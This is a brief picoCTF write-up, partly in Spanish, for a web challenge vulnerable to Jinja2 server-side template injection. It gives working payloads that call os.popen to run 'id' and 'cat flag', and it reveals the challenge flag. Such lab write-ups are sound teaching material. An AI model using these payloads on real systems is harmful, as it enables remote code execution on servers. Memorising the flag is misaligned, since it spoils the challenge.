 #### Description

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:55806/)!



# Solución 

[Server Side Template Injection with Jinja2 for you now](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

RCE bypassing as much as I possibly can.

````
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

cambiar lo de "id " por "cat flag"

{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}


# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bd4cfc64}



```